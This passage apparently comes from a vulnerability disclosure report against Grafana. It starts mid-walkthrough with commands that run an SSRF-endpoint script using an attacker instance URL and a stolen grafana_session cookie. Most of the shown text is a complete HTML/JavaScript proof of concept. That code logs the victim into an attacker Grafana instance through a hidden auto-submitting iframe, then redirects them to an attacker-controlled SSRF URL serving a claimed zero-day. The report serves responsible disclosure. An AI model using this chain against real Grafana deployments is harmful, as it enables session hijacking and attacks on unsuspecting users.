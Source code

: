 Run the command, `pip2 install requests` .
Now run the script by running the command, `python2 create_ssrf_endpont.py "https://attacker-grafana-instance" "http://cross-origin-payload-url" "attacker-grafana-instance-cookie"` .
Note the following;

```
https://attacker-grafana-instance --> this is the attackers grafana instance.
http://cross-origin-payload-url --> this is the url of the payload you saved step 7.
attacker-grafana-instance-cookie -> this is the grafana_session cookie your copied in step 6.
```

{F1588752}

Now note down the SSRF url, the script outputs.

9. Now its time to save our cross-origin-request-forgery payload .

```html
<html>
  <head></head>
  <body>
<h1>CSRF Login POC, you will be redirected in 20 seconds</h1>
<div id=statusdiv></div>
<script>

var attacker_instance = "<att_instance>";
var attacker_instance_username = "avnadmin";
var attacker_instance_password = "<att_password>";
var attacker_csrf_proxy = "<att_ssrf_url>";

var csrf_html = `
  <form enctype="text/plain" action="${attacker_instance}/login" method=POST>
  <input type="text" name='{"user":"${attacker_instance_username}","password":"${attacker_instance_password}","dummy":"' value='"}'>
  <input type="submit">
  </form>
  <svg onload=document.forms[0].submit()>
`;

function log_status(msg) {
  //status logger.
  let com = document.getElementById('statusdiv')
  com.innerHTML += "<h2>" + msg + "</h2>"
}

function create_iframe() {
  log_status("[*] Logging victim into our grafana instance");
  var iframe = document.createElement("iframe");
  iframe.hidden = true;
  iframe.srcdoc = csrf_html;
  document.body.appendChild(iframe);
  log_status("[+] Redirecting to our SSRF Payload");
}

function xmen() {
  //redirects to our datasource, where can serve the grafana 0-day.
  window.location = attacker_csrf_proxy;
}

create_iframe()
setTimeout(xmen, 20000);
</script>
  </body>
</html>
```


[grafana]: https://grafana.com/
[samesite]: https://web.dev/samesite-cookies-explained/